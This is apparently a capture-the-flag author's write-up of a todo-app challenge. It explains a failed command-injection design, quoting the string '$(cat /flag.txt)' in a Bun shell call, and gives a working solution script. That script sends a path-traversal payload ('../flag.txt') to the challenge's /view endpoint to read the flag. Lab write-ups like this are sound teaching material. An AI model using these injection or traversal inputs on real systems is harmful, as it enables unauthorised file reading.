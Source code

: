 # Databases are for noobs
### Difficulty: 0.2
### available at: https://ctf.rustalytics.com

# How did it go?
The vulnurability I was trying to expose did not work the way I intended. This probably has to do with the [Bun runtime](https://bun.sh/) not excecuting bash the way I thought it would.
for example:

```js
//You would thinkg writing $(cat /flag.txt) would make that excecte and input the flag to the file but it doesn't
//Instead it writes the actual string "$(cat /flag.txt)" into the file and not excecuting
const createfile = await $`echo ${data1} > ${req.query.auth}/${data2}`.text()
```
The difficulty is changed from a 0.4 to a 0.2
This is because there is not much knowledge about bash required as it is only a path and the auth is exposed in the query params and not in the headers so it is easy to notice
Now you just have to understand that the "todo" is read is a directory
# What does the hacker have access to?
The hacker has access to only the website before finding the exploit.
The website sends 3 different serevr requests:
* /view: opens a file/todo (like cat), This is where you solve it
* /list: lists the todos (like ls). I did an empty path so it will be easier for the hacker to find the flag when they found the exploit
* /create: echos data into a file. This was meant to be the exploit but as meanti9oned above it never worked
# How do you solve it
It is solved by sending a request to the /view endpoint with a body that goes to the flag
The auth has to exist so people don't have the same todos when going to the website
I also think that is a good skill to learn that you often can copy the auth tokens from the web cookies/headers or query params to use an API with a script
This is how my project [Rustalytics](https://rustalytics.com) has done with the api endpoints of a rust server to provide a good service
```js
let headersList = {
 "Accept": "*/*",
 "User-Agent": "Thunder Client (https://www.thunderclient.com)",
 "Content-Type": "application/json"
}

let bodyContent = JSON.stringify({"todo": "../flag.txt"});
const id = ""//your auth id
let response = await fetch(`https://ctfdb.rustalytics.com/view?auth=${id}`, { 
  method: "POST",
  body: bodyContent,
  headers: headersList
});

let data = await response.text();
console.log(data);

``` 
